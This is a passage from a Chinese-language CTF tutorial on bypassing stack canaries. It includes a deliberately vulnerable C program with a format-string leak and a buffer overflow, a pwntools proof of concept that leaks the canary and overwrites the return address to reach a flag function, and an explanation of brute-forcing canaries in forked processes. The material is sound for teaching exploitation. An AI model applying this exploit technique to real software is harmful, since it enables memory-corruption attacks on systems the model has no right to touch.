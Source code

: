 ```cpp
    puts(flag);
}
void init() {
    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);
}

void fun(void) {
	char buffer[100];
	read(STDIN_FILENO, buffer, 120);
}

int main(void) {
	char buffer[6];
	init();
	scanf("%6s",buffer);
	printf(buffer);
	fun();
}
```

在第一次scanf的时候输入“%7$x”打印出canary，在fun中利用栈溢出控制eip跳转到getflag。

poc:
```python
from pwn import *
context.log_level = 'debug'

cn = process('./bin')

cn.sendline('%7$x')
canary = int(cn.recv(),16)
print hex(canary)

cn.send('a'*100 + p32(canary) + 'a'*12 + p32(0x0804863d))

flag = cn.recv()

log.success('flag is:' + flag)

```

## 绕过canary - 针对fork的进程

对fork而言，作用相当于自我复制，每一次复制出来的程序，内存布局都是一样的，当然canary值也一样。那我们就可以逐位爆破，如果程序GG了就说明这一位不对，如果程序正常就可以接着跑下一位，直到跑出正确的canary。

另外有一点就是canary的最低位是0x00，这么做为了防止canary的值泄漏。比如在canary上面是一个字符串，正常来说字符串后面有0截断，如果我们恶意写满字符串空间，而程序后面又把字符串打印出来了，那个由于没有0截断canary的值也被顺带打印出来了。设计canary的人正是考虑到了这一点，就让canary的最低位恒为零，这样就不存在上面截不截断的问题了。

示例程序：

